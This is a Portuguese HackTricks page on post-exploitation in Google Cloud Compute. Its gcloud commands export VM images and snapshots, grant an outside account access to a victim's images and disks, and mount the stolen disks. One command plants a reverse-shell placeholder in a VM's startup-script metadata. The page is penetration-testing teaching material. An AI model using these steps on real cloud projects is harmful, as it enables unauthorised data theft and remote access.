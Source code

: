 # GCP - Pós-Exploração de Computação

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Computação

Para mais informações sobre Computação e VPC (Rede) verifique:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportar e Inspeccionar Imagens localmente

Isso permitiria a um atacante **acessar os dados contidos em imagens já existentes** ou **criar novas imagens de VMs em execução** e acessar seus dados sem ter acesso à VM em execução.

É possível exportar uma imagem de VM para um bucket e depois baixá-la e montá-la localmente com o comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Antes de realizar esta ação, o atacante pode precisar de privilégios sobre o bucket de armazenamento e com certeza **privilégios sobre o cloudbuild** pois é o **serviço** que será solicitado para realizar a exportação. Além disso, para que isso funcione, o SA do cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` precisa de permissões privilegiadas:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

E o SA `<project-id>-compute@developer.gserviceaccount.com` precisa de:

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### Exportar e Inspeccionar Snapshots e Discos localmente

Não é possível exportar diretamente snapshots e discos, mas é possível **transformar um snapshot em um disco, um disco em uma imagem** e seguindo a **seção anterior**, exportar essa imagem para inspecioná-la localmente

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspectar uma Imagem criando uma VM

Com o objetivo de acessar os **dados armazenados em uma imagem** ou dentro de uma **VM em execução** de onde um atacante **criou uma imagem**, é possível conceder acesso a uma conta externa sobre a imagem:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
e depois criar uma nova VM a partir dele:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Se você não puder dar acesso à sua conta externa sobre a imagem, você poderia lançar uma VM usando essa imagem no projeto da vítima e **fazer com que os metadados executem um shell reverso** para acessar a imagem adicionando o parâmetro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspecionar um Snapshot/Disk anexando-o a uma VM

Com o objetivo de acessar os **dados armazenados em um disco ou snapshot, você pode transformar o snapshot em um disco, um disco em uma imagem e seguir os passos anteriores.**

Ou você pode **conceder acesso a uma conta externa** sobre o disco (se o ponto de partida for um snapshot, conceda acesso sobre o snapshot ou crie um disco a partir dele):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Anexar o disco** a uma instância:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Monte o disco dentro da VM:

1.  **Acesse a VM via SSH**:

```sh
gcloud compute ssh [NOME_DA_INSTÂNCIA] --zone [ZONA]
```
2. **Identifique o Disco**: Uma vez dentro da VM, identifique o novo disco listando os dispositivos de disco. Normalmente, você pode encontrá-lo como `/dev/sdb`, `/dev/sdc`, etc.
3. **Formate e Monte o Disco** (se for um disco novo ou não formatado):
*   Crie um ponto de montagem:

```sh
sudo mkdir -p /mnt/disks/[DIRETÓRIO_DE_MONTAGEM]
```
*   Monte o disco:

```sh
sudo mount -o discard,defaults /dev/[DISPOSITIVO_DE_DISCO] /mnt/disks/[DIRETÓRIO_DE_MONTAGEM]
```

Se você **não pode dar acesso a um projeto externo** para o snapshot ou disco, talvez precise **realizar essas ações dentro de uma instância no mesmo projeto do snapshot/disco**.
